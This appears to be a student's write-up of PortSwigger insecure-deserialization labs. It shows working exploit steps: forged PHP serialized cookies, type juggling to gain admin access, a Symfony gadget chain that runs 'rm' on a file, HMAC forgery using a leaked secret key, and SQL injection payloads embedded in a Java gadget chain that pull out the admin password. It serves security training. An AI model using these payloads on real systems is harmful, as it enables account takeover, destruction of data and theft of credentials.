[HackTricks Cheat sheet](https://book.hacktricks.xyz/pentesting-web/deserialization)
[OWASP Cheat sheet](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)

[PortSwigger Labs](https://portswigger.net/web-security/deserialization)

## Insecure deserialization

### Lab 01: Modifying serialized objects
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects)






```
Cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d

B64 Decode: O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```







### Lab 02: Modifying serialized data types
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types)




```
Cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ0aHVzYjdoeXIyd28yOTF0bGNkaWJkYmEweWoydzRjbiI7fQ%3d%3d

B64 Decode: 
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"thusb7hyr2wo291tlcdibdba0yj2w4cn";}
```

I try to put 'administrator' in the cookie

```
RAW: 
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:32:"thusb7hyr2wo291tlcdibdba0yj2w4cn";}
-> Cookie: 
```


i got an error:


So i imagine that there is a php script that compare the $user->access_token vs $access_token[i]. But the server doesn't check type of $user->access_token. 
-> [PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)

I replace the token string in the cookie with an interger.

```
RAW:
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
Cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9Cg%3D%3D
```
I have admin access.





### Lab 03: Using application functionality to exploit insecure deserialization
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization)

[Insecure deserialization](https://portswigger.net/web-security/deserialization)

Lab description:
```
This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory.
You can log in to your own account using the following credentials: wiener:peter
You also have access to a backup account: gregg:rosebud
```



I uploaded an image as avatar to the server. The cookie now contains the image path
```
Value:
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2ZWtwODNzeDFnamhpYTMyaGNhaWduOHB6cDlheTJ0NCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d
B64Decode:
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vekp83sx1gjhia32hcaign8pzp9ay2t4";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

So i tried to change the avatar path to something :v
```
Value: 
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vekp83sx1gjhia32hcaign8pzp9ay2t4";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
Cookie:
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2ZWtwODNzeDFnamhpYTMyaGNhaWduOHB6cDlheTJ0NCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
```

And now i need to remove the wiener account inorder to remove the wiener avatar (/home/carlos/morale.txt) ? 



### Lab 04: Arbitrary object injection in PHP
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php)

Cookie:
```
Value:
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJkZGVvbjV0NW80OGp3MGluaXl6aGwwbjlvMzA2czc4YiI7fQ%3d%3d
B64Decode:
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"ddeon5t5o48jw0iniyzhl0n9o306s78b";}
```

Maybe this is a hint...


Try to get /libs/CustomTemplate.php but its empty. However, I scan all possible backup files and found it:



/libs/CustomTemplate.php~ (This is the backup file generated by vi)
```

<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

The __destruct() method is called when the object is destroyed. It checks if the lock file exists and deletes it if it does.
-> That is the point we want

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}

TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3D%3D
```



### Lab 05: Exploiting Java deserialization with Apache Commons
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons)

I tried to decode the cookie and it seems different from the previous lab's cookie



This cookie begins with the "r00" -> Java serialized object

So i found a tool called [ysoserial](https://github.com/frohoff/ysoserial). This tool helps us generate payloads that exploit unsafe Java object deserialization.

I wrote [a script](./lab05_payload/lab05_ysoserial.py) to generate all payloads for the command to exploit the Java serialization.




Use intruder to gend number of cookies contains the generated payload


Done!


### Lab 06: Exploiting PHP deserialization with a pre-built gadget chain
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain)

Cookie:
```
RAW:
%7B%22token%22%3A%22Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ3eWxodzdpcGJhN2JrZ2pka3V3dXh6MWNhZG8zdzVkNCI7fQ%3D%3D%22%2C%22sig_hmac_sha1%22%3A%2210c54be275733d14c4a0b07e2d1148cea99d6ef3%22%7D
URL Decode: 
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ3eWxodzdpcGJhN2JrZ2pka3V3dXh6MWNhZG8zdzVkNCI7fQ==","sig_hmac_sha1":"10c54be275733d14c4a0b07e2d1148cea99d6ef3"}
```



I tried to change user to 'carlos'

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6ImNhcmxvcyI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ3eWxodzdpcGJhN2JrZ2pka3V3dXh6MWNhZG8zdzVkNCI7fQo=

Cookie: 
%7B%22token%22%3A%22Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6ImNhcmxvcyI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ3eWxodzdpcGJhN2JrZ2pka3V3dXh6MWNhZG8zdzVkNCI7fQo%3D%22%2C%22sig%5Fhmac%5Fsha1%22%3A%2210c54be275733d14c4a0b07e2d1148cea99d6ef3%22%7D
```



The server uses Symfony v4.3.6.

HackTricks PHP Deserialization Cheat Sheet:


[phpggc - Github](https://github.com/ambionics/phpggc)

Phpggc Symfony support versions:


-> We can use Gadget Chains Symfony/RCE4, Symfony/RCE7, Symfony/RCE8, Symfony/RCE9, Symfony/RCE10 and Symfony/RCE11.



This RCE9 works with command.

Also i need to check the phpinfo() of the server. You can easily found it on BurpSuite Pro :v





```
Tzo0NDoiU3ltZm9ueVxDb21wb25lbnRcUHJvY2Vzc1xQaXBlc1xXaW5kb3dzUGlwZXMiOjE6e3M6NTc6IlN5bWZvbnlcQ29tcG9uZW50XFByb2Nlc3NcUGlwZXNcV2luZG93c1BpcGVzZmlsZUhhbmRsZXMiO086NTA6IlN5bWZvbnlcQ29tcG9uZW50XEZpbmRlclxJdGVyYXRvclxTb3J0YWJsZUl0ZXJhdG9yIjoyOntzOjYwOiJTeW1mb255XENvbXBvbmVudFxGaW5kZXJcSXRlcmF0b3JcU29ydGFibGVJdGVyYXRvcml0ZXJhdG9yIjtPOjExOiJBcnJheU9iamVjdCI6NDp7aTowO2k6MDtpOjE7YToyOntpOjA7czo0OiJleGVjIjtpOjE7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO31pOjI7YTowOnt9aTozO047fXM6NTY6IlN5bWZvbnlcQ29tcG9uZW50XEZpbmRlclxJdGVyYXRvclxTb3J0YWJsZUl0ZXJhdG9yc29ydCI7czoxNDoiY2FsbF91c2VyX2Z1bmMiO319
Cookie:
%7B%22token%22%3A%22Tzo0NDoiU3ltZm9ueVxDb21wb25lbnRcUHJvY2Vzc1xQaXBlc1xXaW5kb3dzUGlwZXMiOjE6e3M6NTc6IlN5bWZvbnlcQ29tcG9uZW50XFByb2Nlc3NcUGlwZXNcV2luZG93c1BpcGVzZmlsZUhhbmRsZXMiO086NTA6IlN5bWZvbnlcQ29tcG9uZW50XEZpbmRlclxJdGVyYXRvclxTb3J0YWJsZUl0ZXJhdG9yIjoyOntzOjYwOiJTeW1mb255XENvbXBvbmVudFxGaW5kZXJcSXRlcmF0b3JcU29ydGFibGVJdGVyYXRvcml0ZXJhdG9yIjtPOjExOiJBcnJheU9iamVjdCI6NDp7aTowO2k6MDtpOjE7YToyOntpOjA7czo0OiJleGVjIjtpOjE7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO31pOjI7YTowOnt9aTozO047fXM6NTY6IlN5bWZvbnlcQ29tcG9uZW50XEZpbmRlclxJdGVyYXRvclxTb3J0YWJsZUl0ZXJhdG9yc29ydCI7czoxNDoiY2FsbF91c2VyX2Z1bmMiO319%22%2C%22sig%5Fhmac%5Fsha1%22%3A%2210c54be275733d14c4a0b07e2d1148cea99d6ef3%22%7D
```

I wrote a script to generate all payloads for Symfony platform and brute force the lab using intruder.

But there is a problem...




I missed the /cgi-bin/phpinfo.php again :(



After a few minutes, i saw sth :> 
```
SECRET_KEY	dxl5o8ulu013wk30t52x1vj6d4q62znj
```

The cookie has 2 parts: the token and the sig_hmac_sha1. The problem caused by the wrong signature sig_hmac_sha1 value.

So we have to find out how the sig_hmac_sha1 value is calculated.

A new cookie session of the lab:
```
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJycG82Ymx5N3dwYWd0dXEzM3duaGs1ejBzMXVtMzZkaSI7fQ==","sig_hmac_sha1":"bd11e4a58c677c1109c0067b26c90260495b27e9"}

token:
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"rpo6bly7wpagtuq33wnhk5z0s1um36di";}

sig_hmac_sha1:
bd11e4a58c677c1109c0067b26c90260495b27e9

$_SERVER['SECRET_KEY']:
soz6wt9jvlmyngq5gdd04seh2os67mu5

```

-> The sig_hmac_sha1 = hash_hmac('SHA-1', token, $_SERVER['SECRET_KEY'], false)

PHP hash_hmac function:
```
hash_hmac(
    string $algo,
    string $data,
    string $key,
    bool $binary = false
): string
```



So i write [a python script](./lab06_payload/lab06.py) to generate all cookies with payloads from phpggc

Intruder settings:




Done


### Lab 07: Exploiting Ruby deserialization using a documented gadget chain
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-ruby-deserialization-using-a-documented-gadget-chain)

```
This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.
```

[HackTricks Deserialization Ruby](https://book.hacktricks.xyz/pentesting-web/deserialization#ruby)



[RUBY 2.X UNIVERSAL RCE DESERIALIZATION GADGET CHAIN](https://www.elttam.com/blog/ruby-deserialization/#content)

Cookie:
```

```

I wrote a Ruby deserialization gadget chain payload generator.
[Lab07 payload generator](./lab07_payload/lab07_payload.rb)



Send request containing the generated payload


Done!


### Lab 08: Developing a custom gadget chain for Java deserialization
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-developing-a-custom-gadget-chain-for-java-deserialization)


The cookie after i login successfully with the credentials wiener:peter


Cookie:
```
B64 Encoding:
rO0ABXNyAC9sYWIuYWN0aW9ucy5jb21tb24uc2VyaWFsaXphYmxlLkFjY2Vzc1Rva2VuVXNlchlR/OUSJ6mBAgACTAALYWNjZXNzVG9rZW50ABJMamF2YS9sYW5nL1N0cmluZztMAAh1c2VybmFtZXEAfgABeHB0ACBpdnhkeDM0dTN5M2w0bDB4bHFwY3Fkbnhwb2J1a3Jya3QABndpZW5lcg==

B64 Decode:

```
In repsonse, there is a hint...


So i check the sitemap




/backup/AccessTokenUser.java
```
package data.session.token;

import java.io.Serializable;

public class AccessTokenUser implements Serializable
{
    private final String username;
    private final String accessToken;

    public AccessTokenUser(String username, String accessToken)
    {
        this.username = username;
        this.accessToken = accessToken;
    }

    public String getUsername()
    {
        return username;
    }

    public String getAccessToken()
    {
        return accessToken;
    }
}
```

Also, i take a host's directory scanning :>


Result: There is a file called ProductTemplate.java in the same directory of the AccessTokenUser.java.

ProductTemplate.java
```
package data.productcatalog;

import common.db.JdbcConnectionBuilder;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException
    {
        inputStream.defaultReadObject();

        JdbcConnectionBuilder connectionBuilder = JdbcConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "password"
        ).withAutoCommit();
        try
        {
            Connection connect = connectionBuilder.connect(30);
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
            Statement statement = connect.createStatement();
            ResultSet resultSet = statement.executeQuery(sql);
            if (!resultSet.next())
            {
                return;
            }
            product = Product.from(resultSet);
        }
        catch (SQLException e)
        {
            throw new IOException(e);
        }
    }

    public String getId()
    {
        return id;
    }

    public Product getProduct()
    {
        return product;
    }
}
```

"```String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);```" seems can be injected because the id parameter is controlled by the ProductTemplate object's id - which can be defined by us.

I save the ProductTemplate.java content to [data/productcatalog/ProductTemplate.java](./lab08_payload/) (ofc with some modifications :>)

So i wrote [payload_generate](./lab08_payload/payload_generate.java) to generate the serialized payload we want. 



```
cd ./lab08_payload
javac ./payload_generate.java
java Serialize <payload-here>
cat ./payload.ser | base64 -w0
```

I tried with the payload ```1';--```



Seem promising...



Payload #1:
```
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 ) as int) and '1'='1
```

-> Table 'users' may contains the credentials information

Payload #2:
```
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 0) as int) and '1'='1
```


-> Column 0: 'username' 

Payload #3:
```
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 1) as int) and '1'='1
```


-> Column 1: 'password' 

Payload #4:
```
' and 1=cast((SELECT password FROM users WHERE username='administrator' LIMIT 1) as int) and '1'='1
```
heheboiz...






### Lab 09: Developing a custom gadget chain for PHP deserialization
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-developing-a-custom-gadget-chain-for-php-deserialization)

